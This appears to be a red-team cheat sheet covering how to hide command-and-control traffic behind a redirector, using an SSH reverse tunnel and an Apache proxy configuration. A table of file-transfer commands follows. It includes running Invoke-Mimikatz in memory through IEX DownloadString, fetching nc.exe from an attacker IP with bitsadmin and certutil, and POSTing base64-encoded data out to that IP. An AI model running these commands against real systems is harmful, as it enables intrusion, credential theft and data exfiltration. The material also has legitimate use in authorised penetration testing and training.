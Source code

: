 # C2 Redirector
Instead of directly interacting victims and C2 server. This is actually a neat trick to just use a redirector to be a middle man and route all the C2 traffic to your C2 server (in your local network)

### SSH Remote Tunnel
_Caveat: This method is not 100% reliable since it accepts all traffic coming through a single forwarded port. This will create more rubbish traffic comming into teamserver's IP_
1. Uncheck this line in `/etc/ssh/sshd_config` and restart ssh server
```ini
GatewayPorts clientspecified
```
2. Create reverse tunnel to the redirector. Be careful! this will open your local port (443) to to your VPS. _Note that on the left side is your redirector port and right side is your local C2 server port_
```bash
ssh -R 0.0.0.0:443:127.0.0.1:443 root@redirectorIP
```

### Apache mod_rewrite
This would require an Apache2 server setup on your redirector and C2 server also needed to have a public IP address.
1. Setup an Apache2 server on your redirector.
2. Modify your apache configuration file in `/etc/apache2/sites-enabled/000-default.conf`
```ini
ProxyRequests Off

# Target --> VPS --> C2
ProxyPass /index.html http//c2IPADRESS/index.html

# C2 --> VPS --> Target
ProxyPassReverse /index.html http//c2IPADRESS/index.html
```

# File Transfer

| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
